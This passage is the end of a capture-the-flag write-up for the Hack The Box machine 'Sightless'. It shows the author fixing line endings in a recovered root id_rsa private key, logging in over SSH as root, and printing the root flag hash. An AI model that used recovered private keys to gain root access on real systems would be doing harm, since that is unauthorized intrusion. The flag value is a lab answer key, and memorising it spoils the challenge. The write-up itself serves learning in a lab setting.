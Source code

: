 ```terminal
└─$ xxd id_rsa
[...]
00000d40: 3d0d 0a2d 2d2d 2d2d 454e 4420 4f50 454e  =..-----END OPEN
00000d50: 5353 4820 5052 4956 4154 4520 4b45 592d  SSH PRIVATE KEY-
00000d60: 2d2d 2d2d                                ----
```
It's highlighted in my terminal, here it's not, but the bytes `0d 0a` (the second and third bytes , right after the 3d) here are relevant because they are the newline characters in Windows file formats. However in linux it's not the case, we only use `0a`, which is `\n`. We need to strip all `0d` bytes from this file. This can be done using the tool `dos2unix`. We also notice that the id_rsa file is missing an `\n` in the end, which we'll need to add to fix the format.
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ dos2unix id_rsa              
dos2unix: converting file id_rsa to Unix format...
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ echo "" >> id_rsa    
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ ssh root@sightless.htb -i id_rsa     
Last login: Sun Sep  8 12:21:57 2024 from 10.10.14.201
root@sightless:~# cat root.txt
6634430c7157e4c226f3841debe7e655
```
This last steps of the box were not beginner friendly as it required some really specific knowledge in the id_rsa file format and the discrepancies between windows and linux. 
